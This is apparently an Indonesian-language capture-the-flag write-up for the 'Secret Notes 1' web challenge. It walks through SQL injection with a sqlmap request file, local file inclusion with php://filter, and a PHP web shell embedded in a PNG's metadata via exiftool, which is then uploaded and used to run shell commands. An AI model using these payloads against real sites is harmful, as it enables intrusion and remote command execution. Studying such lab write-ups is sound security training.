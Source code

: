 # Secret Notes 1
Percayakan rahasiamu pada kami, kami akan menjaganya sepenuh hati seperti n---skip---<br/>

http://103.171.85.90:8082<br/>

Password VM : **4d1b54eeaceb5277ea022f7b42b53113**

##  Penjelasan
Cari vulnerability dalam web tersebut.

## How to Solve
1. Setelah beberapa lama mencari endpoint yang vulnerable, saya menemukan bahwa halaman edit secret ***/page.php?f=editsecret&id=your-id*** vuln terhadap sql injection.<br/>
2. Test sql injection dengan menambahkan ' (quote) pada judul. Didapatkan error sebagai berikut :
```
UPDATE `secret` SET `judul` = 'a'', `secret` = 'a' WHERE `id` = '1431944397'You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'a' WHERE `id` = '1431944397'' at line 1
```
3. Gunakan tools sqlmap untuk mempercepat proses dump database.<br/>
command :<br/>
``sqlmap -r exploit.txt --dump``<br/>
dengan isi file exploit.txt sebagai berikut :<br/><br/>
```

POST /page.php?f=editsecret&id=<your-id> HTTP/1.1
Host: 103.171.85.90:8082
User-Agent: <user-agent>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://103.171.85.90:8082
Connection: close
Referer: http://103.171.85.90:8082/page.php?f=editsecret&id=2145985763
Cookie: PHPSESSID=<php-session-id>
Upgrade-Insecure-Requests: 1

judul=test*&secret=test
```

didapatkan user dengan username **first-flag-is** dan password **KKST2021{do_you_k**

4. Saya lanjut mencari endpoint yang dapat di exploit lagi dan ditemukan bahwa parameter **editsecret** pada ***page.php?f=editsecret&id=your-id*** vuln terhadap **Local File Inclusion**
5. Check error dengan mengganti **editsecret** dengan value lain yang invalid.
**/page.php?f=randomstring**
didapatkan error sebagai berikut :<br/><br/>
```
**Warning**: include(randomstring.php): failed to open stream: No such file or directory in **/var/www/html/page.php** on line **15**  
  
**Warning**: include(): Failed opening 'randomstring.php' for inclusion (include_path='.:/usr/local/lib/php') in **/var/www/html/page.php** on line **15**
```
Dari error tersebut, saya mengira seperti inilah yang ada pada file page.php<br/>
```
<?php
	include($_GET["f"].".php");
	...
?>
```
6. Gunakan **php://filter/convert.base64-encode/resource=** untuk membaca file.<br/>
``http://103.171.85.90:8082/page.php?f=php://filter/convert.base64-encode/resource=page``
didapatkan isi dari **page.php** dalam base64 encoding.<br/>
```
PD9waHAgaW5jbHVkZSgnaGVhZGVyLnBocCcpOyA/PgoKCjw/cGhwCgogICAgaWYoaXNzZXQoJF9HRVRbJ2YnXSkpewoKCgogICAgICAgICRmaWxlcyA9ICRfR0VUWydmJ10uIi5waHAiOwoKICAgICAgICBpZihwcmVnX21hdGNoKCcvXC5wbmcvbScsICRfR0VUWydmJ10pKXsKICAgICAgICAgICAgaW5jbHVkZSAkX0dFVFsnZiddOwogICAgICAgIH1lbHNlewogICAgICAgICAgICBpbmNsdWRlICRmaWxlczsKICAgICAgICB9CgogICAgICAgIAoKICAgIH0KCj8+CgoKPD9waHAgaW5jbHVkZSgnZm9vdGVyLnBocCcpOyA/Pg==
```
Setelah di decoding, didapatkan isi dari file **page.php**<br/><br/>
```<?php include('header.php'); ?>
<?php

    if(isset($_GET['f'])){



        $files = $_GET['f'].".php";

        if(preg_match('/\.png/m', $_GET['f'])){
            include $_GET['f'];
        }else{
            include $files;
        }



    }

?>


<?php include('footer.php'); ?>
```
Setelah membaca file tersebut, ada sesuatu yang menarik yaitu, saya dapat memanggil file **png** dan di halaman **upload.php** terdapat form upload file untuk mengunggah gambar. Saya berpikiran untuk mengupload backdoor dengan file png yang disisipkan kode php, sehingga ketika nanti file png tersebut dipanggil, maka kode php tersebut berjalan.

7. Gunakan **exiftool** untuk menambahkan kode php ke dalam file png.
	command :<br/>
	 ``exiftool -Comment='<?=`$_GET[0]`?>' file.png``
8. Upload file tersebut pada halaman **upload.php**, otomatis file tersebut akan ter-rename dengan format **file/\<nama-user\>.png** dalam kasus saya adalah **file/user.png**
9. Panggil file png yang sudah diupload tadi.
``http://103.171.85.90:8082/page.php?f=file/user.png``  
10. Setelah memanggil file png tadi, sekarang saya dapat melakukan command shell. 
``http://103.171.85.90:8082/page.php?f=file/user.png&0=<your-command>``
11. Gunakan command **ls -lah** untuk melihat directory, sehingga ditemukan folder **.Administrator** yang berisikan file index.php
12. Gunakan command **cat** untuk membaca file tersebut.
``http://103.171.85.90:8082/page.php?f=file/user.png&0=cat .Administrator/index.php``
13. view-page source dan didapatkan flag bagian kedua :<br/>
```
<?php 
  $another_flag = "now_another_cooking?_twiceeee!!!}";
?>
```

## Flag
KKST2021{do_you_know_another_cooking?_twiceeee!!!}
